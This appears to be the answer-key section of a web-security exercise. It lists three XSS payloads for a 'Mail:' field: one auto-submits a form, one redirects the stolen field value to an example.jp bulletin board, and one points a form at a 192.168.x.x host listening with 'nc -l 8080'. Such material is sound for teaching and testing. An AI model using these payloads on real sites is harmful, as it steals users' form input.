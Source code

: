 ## Answer Examples
XSS at "Mail:" textbox.
* ' onmouseover='var a=document.forms[0];var b=document.forms[1];a.elements[0].value="hoge";a.elements[1].value="hoge";a.elements[2].value="hoge";a.elements[3].value=b.elements[0].value;a.submit();
* ' onmouseover='document.location="http://example.jp/bbs.cgi?author=a&email=a&title=a&body="+document.forms[1].elements[0].value
* ' onmouseover='document.forms[1].action="http://192.168.x.x:8080/"
    * "nc -l 8080" at 192.168.x.x
